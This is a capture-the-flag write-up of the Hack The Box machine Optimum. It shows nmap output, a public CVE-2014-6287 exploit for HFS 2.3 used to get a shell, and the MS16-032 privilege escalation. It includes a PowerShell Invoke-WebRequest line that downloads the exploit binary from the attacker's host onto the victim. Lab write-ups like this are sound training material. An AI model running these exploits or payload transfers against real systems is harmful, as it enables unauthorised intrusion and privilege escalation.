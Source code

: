 ```yaml
---
featured_image: "/posts/Optimum/Optimum.png"
title : HTB 15/20 Optimum
published : true
date: 2021-04-24
author : PS
---
```

## Foothold
*nmap*

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-28 16:28 EEST
Nmap scan report for 10.10.10.8
Host is up (0.075s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```
Port 80 timeeee  
![fuckmsf](1.png)
Lots of this to check :(  
When trying to login , and failing we see something interesting :  
![fuckmsf](2.png)
hmmm  
![fuckmsf](3.png)
Hehe  
## User
We use the https://github.com/roughiz/cve-2014-6287.py (do not forget to run it with sudo )  
And get a  shell :  
![fuckmsf](4.png)
## Root 
![fuckmsf](5.png)
We find the version of the win , search it on the internet and find an exploit :
![fuckmsf](6.png)
We will use the compiled version : https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-032/x64
```bash
wget https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS16-032/x64/ms16-032.exe
```
Get the exploit on the other machine 
![fuckmsf](7.png)
```bash
powershell.exe -c "Invoke-WebRequest -Uri http://10.10.14.7/ms16-032.exe -OutFile C:\Users\kostas\Desktop\ms16-032.exe
```
Run the exploit annnd get root :D 
PS outttttt
